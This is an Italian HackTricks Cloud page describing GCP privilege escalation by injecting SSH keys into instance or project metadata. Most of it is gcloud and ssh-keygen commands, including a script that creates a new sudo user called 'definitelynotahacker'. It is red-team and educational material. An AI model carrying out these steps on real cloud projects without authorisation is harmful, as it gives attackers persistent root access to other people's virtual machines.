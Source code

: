 # GCP - Aggiungere Metadati SSH Personalizzati

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}

## Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe comportare **significativi rischi per la sicurezza se un attaccante acquisisce le autorizzazioni necessarie**.

### **Incorporazione delle Chiavi SSH nei Metadati Personalizzati**

Su GCP, i **sistemi Linux** eseguono spesso script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** il punto finale dei metadati dell'istanza per **aggiornamenti delle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta nel file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

### **Aggiungere una chiave SSH a un utente privilegiato esistente**

1. **Esaminare le Chiavi SSH Esistenti sull'Istanza:**
- Esegui il comando per descrivere l'istanza e i suoi metadati per individuare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, in particolare la chiave `ssh-keys`.
```bash
gcloud compute instances describe [ISTANZA] --zone [ZONA]
```
- Presta attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da due punti.

2. **Prepara un File di Testo per i Metadati delle Chiavi SSH:**
- Salva i dettagli dei nomi utente e delle relative chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti mentre se ne aggiungono di nuove.

3. **Genera una Nuova Chiave SSH per l'Utente Target (`alice` in questo esempio):**
- Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo commento (`-C`) corrisponda al nome utente target.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Aggiungi la nuova chiave pubblica a `meta.txt`, imitando il formato trovato nei metadati dell'istanza.

4. **Aggiorna i Metadati delle Chiavi SSH dell'Istanza:**
- Applica i metadati delle chiavi SSH aggiornati all'istanza usando il comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [ISTANZA] --metadata-from-file ssh-keys=meta.txt
```

5. **Accedi all'Istanza Utilizzando la Nuova Chiave SSH:**
- Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Crea un nuovo utente privilegiato e aggiungi una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno dati privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare la portata dell'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non abbia esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le Chiavi SSH a Livello di Progetto:**
- Utilizza il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute su tutte le VM nel progetto, a meno che una VM abbia abilitata l'opzione "Blocca le chiavi SSH a livello di progetto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Accedi alle Istanze Utilizzando le Chiavi a Livello di Progetto:**
- Con le chiavi SSH a livello di progetto in posizione, puoi accedere via SSH a qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo l'accesso.
- Un metodo diretto per accedere via SSH a un'istanza è utilizzare il comando `gcloud compute ssh [ISTANZA]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.


# Riferimenti
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
